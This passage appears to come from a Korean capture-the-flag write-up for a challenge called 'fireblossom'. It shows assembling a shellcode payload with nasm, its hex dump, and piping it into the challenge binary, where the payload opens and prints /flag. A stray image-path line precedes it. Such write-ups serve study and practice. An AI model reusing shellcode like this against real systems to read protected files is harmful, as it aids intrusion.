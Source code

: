 쉘코드를 어셈블하고 fireblossom에 stdin으로 입력하면 키를 볼 수 있다.

```
$ ls
fireblossom*  fireblossom_claypot*  flag pay.s

$ nasm -felf64 -o pay.o pay.s
$ ld -o pay pay.o
$ objcopy -O binary --only-section=.start pay pay.bin

$ xxd pay.bin
0000000: 4831 ffbe 0010 0000 ba07 0000 0041 ba22  H1...........A."
0000010: 0000 0049 89f8 4989 f96a 0958 0f05 5048  ...I..I..j.X..PH
0000020: bf2f 666c 6167 0000 0057 4889 e648 31ff  ./flag...WH..H1.
0000030: 4831 d268 0101 0000 580f 0548 89c7 5e5e  H1.h....X..H..^^
0000040: 56ba 0010 0000 6a00 580f 05bf 0100 0000  V.....j.X.......
0000050: 5e48 89c2 6a01 580f 05                   ^H..j.X..

$ cat pay.bin | sudo ./fireblossom
Put seeds into the clay pot
This is test flag
The fireblossom is blooming
```


